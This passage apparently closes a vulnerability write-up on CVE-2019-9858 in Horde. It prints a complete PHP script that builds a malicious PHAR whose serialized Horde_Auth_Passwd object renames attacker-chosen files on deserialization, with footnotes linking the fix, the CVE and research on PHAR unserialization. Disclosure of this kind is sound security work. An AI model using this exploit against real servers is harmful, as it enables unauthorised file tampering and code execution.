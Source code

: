 Please note that the `/tmp/exploit.inc` file needs to be manually deleted.

### PHAR loading

The following PHP file is used to create the PHAR:

```php
#!/usr/bin/env php
<?php

// the __destruct method of Horde_Auth_Passwd eventually calls
// rename($this->_lockfile, $this->_params['filename']) if $this->_locked
class Horde_Auth_Passwd {
    // visibility must match since protected members are prefixed by "\x00*\x00"
    protected $_locked;
    protected $_params;

    function __construct($source, $destination) {
        $this->_params = array('filename' => $destination);
        $this->_locked = true;
        $this->_lockfile = $source;
    }
};

function createPhar($path, $source, $destination, $stub) {
    // create the object and specify source and destination files
    $object = new Horde_Auth_Passwd($source, $destination);

    // create the PHAR
    $phar = new Phar($path);
    $phar->startBuffering();
    $phar->addFromString('x', '');
    $phar->setStub("<?php $stub __HALT_COMPILER();");
    $phar->setMetadata($object);
    $phar->stopBuffering();
}

function main() {
    global $argc, $argv;

    // check arguments
    if ($argc != 5) {
        fwrite(STDERR, "Usage: <path> <source> <destination> <stub>\n");
        exit(1);
    }

    // create a fresh new phar
    $path = $argv[1];
    $source = $argv[2];
    $destination = $argv[3];
    $stub = $argv[4];
    @unlink($path);
    createPhar($path, $source, $destination, $stub);
}

main();
```
{: download="create-renaming-phar.php"}


[fix]: https://github.com/horde/Form/commit/f5fc41e9d3f1a7bc9371dda5d39ea7629b0030f3
[CVE-2019-9858]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9858
[^phar-extension]: Apparently it is not strictly needed to use the `.phar` extension, *any* non-empty extension will cause PHP to treat the file as PHAR if accessed via the `phar://` scheme.
[^three-blocks]: Actually the Git version comes with a third apparently vulnerable block (`Tagsearch.php`) but it is missing in the PEAR and Debian APT versions.
[^manual]: This cannot be done directly from the web page, either intercept the request or use the developer tools of the browser to change the value.
[^phar-unserialization]: See [File Operation Induced Unserialization via the "phar://" Stream Wrapper](https://i.blackhat.com/us-18/Thu-August-9/us-18-Thomas-Its-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It-wp.pdf).
[`phar.readonly`]: http://php.net/phar.readonly